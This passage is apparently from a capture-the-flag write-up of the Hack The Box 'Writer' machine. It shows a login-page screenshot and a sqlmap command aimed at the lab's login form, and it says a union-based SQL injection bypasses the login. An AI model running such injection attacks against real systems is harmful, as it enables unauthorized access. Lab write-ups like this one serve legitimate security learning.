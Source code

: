 ![login-page.png](/assets/images/posts/htb-writer/login-page.png)

Using sqlmap we find that the username field of the login page is vulnerable to SQL injection:
```text
sqlmap -u "http://writer.htb/administrative" --data="uname=test&password=test&form=submit"
```

Sqlmap executes a union based query that allows us to bypass the login page and gives us access to the dashboard: